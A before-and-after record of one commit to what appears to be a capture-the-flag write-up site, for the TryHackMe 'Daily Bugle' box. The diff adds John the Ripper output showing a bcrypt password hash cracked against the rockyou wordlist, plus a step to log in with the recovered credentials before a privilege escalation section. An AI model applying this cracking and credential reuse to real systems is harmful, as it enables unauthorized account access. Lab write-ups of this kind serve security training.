

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/bugle.md, in a window 1280 px wide and 900 px high, scrolled down 4162 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/thm/bugle.md
+++ b/source/docs/thm/bugle.md
@@ -135,8 +135,21 @@ This python script is specific for Joomla:
 Put hash in a file named `hash.txt` and crack the hash:
 
     # john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
+    Using default input encoding: UTF-8
+    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
+    Cost 1 (iteration count) is 1024 for all loaded hashes
+    Will run 4 OpenMP threads
+    Press 'q' or Ctrl-C to abort, almost any other key for status
+    0g 0:00:00:19 0.01% (ETA: 2022-10-04 09:12) 0g/s 83.11p/s 83.11c/s 83.11C/s rock you..gymnastics
+    0g 0:00:00:21 0.01% (ETA: 2022-10-04 11:22) 0g/s 81.01p/s 81.01c/s 81.01C/s 2hot4u..sexylove
+    spiderman123     (?)
+    1g 0:00:10:44 DONE (2022-10-02 00:27) 0.001551g/s 72.65p/s 72.65c/s 72.65C/s thelma1..speciala
+    Use the "--show" option to display all of the cracked passwords reliably
+    Session completed.
 
 ### Privilege escalation
+
+Log in with the found username and password.
 
 Yum is a free and open-source command-line package-management utility for Linux-based operating system which uses the RPM Package Manager.
 
```
